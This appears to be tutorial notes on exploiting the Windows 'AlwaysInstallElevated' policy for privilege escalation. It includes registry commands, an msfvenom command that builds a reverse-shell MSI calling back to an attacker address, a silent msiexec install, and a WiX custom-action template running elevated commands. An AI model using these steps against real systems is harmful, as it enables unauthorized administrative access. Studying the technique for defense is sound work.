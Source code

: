 ## Always Install with Elevated Privileges

The "Always Install with Elevated Privileges" option is a policy setting that can allow users to install software with elevated permissions, even if not administrators.

The problem is that arbitrary code can be executed during the installation of a software.

Thus, this option represents a significant security risk, as it introduces the ability to execute arbitrary code with higher privileges.

## Configuration Check

To check if the `Always with Elevated Privielges` is enabled, you can either use Group Policy Editor (`gpedit.msc`)

```powershell
Computer Configuration -> Administrative Templates
                       -> Windows Components
                       -> Windows Installer
                       -> Always install with elevated privileges
```

```powershell
User Configuration -> Administrative Template
                   -> Windows Components
                   -> Windows Installer
```

---

You can also do it from the command line

```powershell
Get-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\Installer" -Name AlwaysInstallElevated
```


```powershell
Get-ItemProperty -Path "HKCU:\Software\Policies\Microsoft\Windows\Installer" -Name AlwaysInstallElevated
```

For the config to work both of these values have to be 1.
```powershell
Set-ItemProperty -Path 'HKLM:\Software\Policies\Microsoft\Windows\Installer' -Name 'AlwaysInstallElevated' -Value 1
```

```powershell
Set-ItemProperty -Path 'HKCU:\Software\Policies\Microsoft\Windows\Installer' -Name 'AlwaysInstallElevated' -Value 1
```

## Exploitation

If the `Always Install with Elevated Privileges` is configured, it is possible to obtain privilege escalation by producing a malicious Microsoft Software Installer package (`msi`) and install it.

- Generate malicious MSI
```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.122.1 LPORT=7777 -f msi > sample.msi
```

Execute it
```powershell
msiexec /quiet /qn /i sample.msi
```

## Extra: Create Custom MSI

Instead of using `msfvenom`, you can use `wixtoolset` to produce an `msi` file that will execute custom code upon execution.

- Download wix v3.14.1
```powershell
https://github.com/wixtoolset/wix3/releases/tag/wix3141rtm
```

- Install the program
```powershell
set PATH=%PATH%;"C:\Program Files (x86)\WiX Toolset v3.14\bin"
```

- Create a sample project
```powershell
<?xml version="1.0"?>
     <Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
       <Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product Name"
     	   Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
         <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
         <Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>
         <Directory Id="TARGETDIR" Name="SourceDir">
           <Directory Id="ProgramFilesFolder">
     	<Directory Id="INSTALLLOCATION" Name="Example">
     	  <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
     	  </Component>
     	</Directory>
           </Directory>
         </Directory>
         <Feature Id="DefaultFeature" Level="1">
           <ComponentRef Id="ApplicationFiles"/>
         </Feature>
         <Property Id="cmdline">cmd.exe /C whoami /groups > C:\Users\Quickemu\Desktop\test.txt </Property>
         <CustomAction Id="Stage1" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>
         <CustomAction Id="Stage2" Execute="deferred" Script="vbscript" Return="check">
           fail_here
         </CustomAction>
         <InstallExecuteSequence>
           <Custom Action="Stage1" After="InstallInitialize"></Custom>
           <Custom Action="Stage2" Before="InstallFiles"></Custom>
         </InstallExecuteSequence>
       </Product>
     </Wix>
```

- Create the MSI package
```powershell
# from wsx into wixobject
candle sample.wxs

# from wiboxjet into MSI
light.exe sample.wixobj
```

- Execute the package
```powershell
.\sample.msi
msiexec /quiet /qn /i sample.msi
```

---
## References 

WiX Toolset: https://wixtoolset.org/

How do I modify the WIX installer to run as admin (elevated) for my per-machine MSI file?: https://www.add-in-express.com/forum/read.php?FID=5&TID=13992

Course Material: https://github.com/LeonardoE95/yt-en/blob/main/src/2024-11-27-windows-privesc-always-install-elevated/content/notes.txt

